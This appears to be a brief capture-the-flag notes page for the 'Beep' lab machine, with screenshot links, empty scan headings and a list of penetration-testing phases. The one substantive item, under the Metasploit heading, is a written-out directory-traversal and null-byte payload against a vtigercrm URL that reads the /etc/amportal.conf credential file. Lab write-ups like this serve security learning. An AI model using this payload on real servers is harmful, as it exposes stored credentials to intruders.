



# Beep
### Nmap scan

### Port 80

### Metasploit
Searched for the elastix on the metasploit and found a file Inclusion. 
`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

# Following the PTES Framewrok.

1. **Pre-Enagement Interaction**
2. **Intelligence Gathering**
3. **Threat Modeling**
4. **Vulnerability Analysis**
5. **Exploitation**
6. **Post Exploitation**
7. **Reporting**